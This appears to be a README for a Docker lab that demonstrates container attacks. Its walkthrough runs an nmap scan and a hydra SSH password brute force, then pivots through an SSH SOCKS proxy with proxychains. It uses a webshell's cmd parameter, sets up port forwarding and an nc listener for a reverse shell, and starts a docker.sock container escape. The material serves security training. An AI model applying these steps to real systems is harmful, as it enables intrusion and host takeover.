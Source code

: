 # Attack Container Simple Lab
This lab is made for testing attack container with 2 vulns, whichs are "Share network namespace" and "Insecure volumn mounts"

## Architecture


## Setup
### Create secret-public ssh key pair
```bash
mkdir -p ./ssh-key ./authorized_keys
ssh-keygen -t rsa -N "" -f ./ssh-key/id_rsa
cp ./ssh-key/id_rsa.pub ./authorized_keys/authorized_keys
chmod 644 ./authorized_keys/authorized_keys
chmod -R 777 ./ssh-key
chown nobody:nogroup ./ssh-key/id_rsa
```

### Run the lab
```bash
docker-compose up -d --build
```

#### Access to attacker
```bash
docker exec -it attacker /bin/bash
```

## Testing
1. From container `attacker` ping `helper`:
```bash
docker exec -it attacker ping 172.16.100.11
```

2. From `attacker` ping `victim` fail:
```bash
docker exec -it attacker ping 172.16.101.11
```

## Walkthrough
From `attacker`, we attack to the `helper` which we can assume that it is a public facing server. The `helper` has the same network as `victim` (share network namespace) -> so we can abuse this and pivot in to container `victim`. Finally, the container `victim` has "Insecure volumn mounting" vulnerability so we can escape the container and control the host.

### Share network namespace:
First, access the container `attacker`:
```bash
docker exec -it attacker /bin/bash
```

Next, we try to ping to `helper` to check the connection
```bash
root@attacker:/# ping helper
PING helper (172.16.100.11) 56(84) bytes of data.
64 bytes from helper.acsl_attacker_net (172.16.100.11): icmp_seq=1 ttl=64 time=0.391 ms
64 bytes from helper.acsl_attacker_net (172.16.100.11): icmp_seq=2 ttl=64 time=0.042 ms
64 bytes from helper.acsl_attacker_net (172.16.100.11): icmp_seq=3 ttl=64 time=0.041 ms
64 bytes from helper.acsl_attacker_net (172.16.100.11): icmp_seq=4 ttl=64 time=0.055 ms
^C
--- helper ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3083ms
rtt min/avg/max/mdev = 0.041/0.132/0.391/0.149 ms
root@attacker:/#
```

Recon the `helper`:
```bash
root@attacker:/# nmap -sC -sV -A -oA nmap/details -p `for i in $(nmap --min-rate 10000 -p- -oA nmap/allports helper | grep -E "^[0-9]" | awk -F/ '{print $1}'); do echo -n $i,; done` helper
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-12 21:27 +03
Nmap scan report for helper (172.16.100.11)
Host is up (0.00012s latency).
rDNS record for 172.16.100.11: helper.acsl_attacker_net

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 31:9d:b0:00:0c:d9:4d:22:fe:52:a2:8c:13:44:7d:f2 (ECDSA)
|_  256 0f:75:49:55:3d:14:62:00:d7:e1:89:75:1b:22:b4:a6 (ED25519)
MAC Address: BA:3A:8C:F4:DD:3E (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.32 (96%), Linux 3.2 - 4.9 (96%), Linux 4.15 - 5.8 (96%), Linux 2.6.32 - 3.10 (96%), Linux 5.0 - 5.5 (96%), Linux 3.4 - 3.10 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.3 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.12 ms helper.acsl_attacker_net (172.16.100.11)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.88 seconds
```

Try to brute force service `ssh` of `helper`:
```bash
root@attacker:/# hydra -l root -P /home/rock.txt ssh://172.16.100.11
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-12 21:30:49
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 14 tasks per 1 server, overall 14 tasks, 14 login tries (l:1/p:14), ~1 try per task
[DATA] attacking ssh://172.16.100.11:22/
[22][ssh] host: 172.16.100.11   login: root   password: iloveyou
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-12 21:30:51
```

Initial access to `helper`:
```bash
root@attacker:/# ssh root@helper
root@helper's password:
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-31-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon May 12 18:20:17 2025 from 172.16.100.10
root@helper:~# id
uid=0(root) gid=0(root) groups=0(root)
root@helper:~#
```

`ifconfig` shows that the helper machine is part of two network families
```bash
root@helper:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.100.11  netmask 255.255.255.0  broadcast 172.16.100.255
        ether ba:3a:8c:f4:dd:3e  txqueuelen 0  (Ethernet)
        RX packets 134263  bytes 7912749 (7.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 134222  bytes 7416679 (7.4 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.101.10  netmask 255.255.255.0  broadcast 172.16.101.255
        ether ce:23:2b:c2:e3:39  txqueuelen 0  (Ethernet)
        RX packets 22  bytes 1688 (1.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 8  bytes 504 (504.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Using ping sweep to scan for alive hosts
```bash
root@helper:~# for i in $(seq 1 254); do (ping -c 1 172.16.101.${i} | grep "64 bytes from" | grep -oE "([0-9]{1,3}[\.]){3}[0-9]{1,3}" &); done;
172.16.101.1
172.16.101.10
172.16.101.11
root@helper:~#
```
We can determine that the IP 172.16.101.1 is the gateway's IP, 172.16.101.10 is `helper`'s IP, therefore the 172.16.101.11 is the victim's IP.


Back to our `attacker` machine. We are creating **dynamic port forwarding leverages the SOCKS proxy**. This will deliver all the traffic through an ssh connection, via, given port to the destination server. Here we are forwarding all the traffics to the attacker machine
```bash
root@attacker:/etc# ssh -D 9050 root@172.16.100.11 -f -N
root@172.16.100.11's password:
root@attacker:/etc#
```

We are going to use the `proxychains`. Check if the port specified in “/etc/proxychains.conf” should be the same as dynamic port. 

Then we will scan the victim's IP, which is 172.16.101.11
```bash
root@attacker:/# proxychains nmap -sT -Pn 172.16.101.11
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-12 21:56 +03
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.101.11:3389 <--socket error or timeout!
....
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.101.11:5566 <--socket error or timeout!
Nmap scan report for 172.16.101.11 (172.16.101.11)
Host is up (0.00057s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.66 seconds
```
We used the `-Pn` flag to skip host discovery. The reason why we cannot ping is that proxies do not support ICMP protocols. Their working OSI layers are different while proxychains can only proxy TCP connections.

Now we try to access the web service of `victim`
```bash
root@attacker:/# proxychains -q curl http://172.16.101.11 -I
HTTP/1.1 200 OK
Server: nginx/1.27.5
Date: Mon, 12 May 2025 19:01:12 GMT
Content-Type: text/html
Content-Length: 18
Last-Modified: Mon, 12 May 2025 17:53:46 GMT
Connection: keep-alive
ETag: "682235aa-12"
Accept-Ranges: bytes

```

To keep this lab simple, we can assume that we have discovered the webshell in `/test.php`
```
root@attacker:/# proxychains -q curl http://172.16.101.11/test.php?cmd=echo+"hellowordl!"
```

Exploit this and get the reverse shell directly from `victim` to our `attacker` machine. First, we have to setup a remote forwarding port again and listen for reverse shell connection
```bash
root@attacker:/# ssh -R :80:172.16.100.10:80 -R :1331:172.16.100.10:1331 root@helper -N -f

root@attacker:/# nc -lvnp 1331
```

Next, we send the revershell payload to `victim`
```bash
root@attacker:/# proxychains -q curl http://172.16.101.11/test.php?cmd=e<<rev_shell_payload>>
```

Finally, we are into the `victim` machine

### Insecure volumn mounting
...
```bash
./docker -H unix:///var/run/docker.sock ps
```






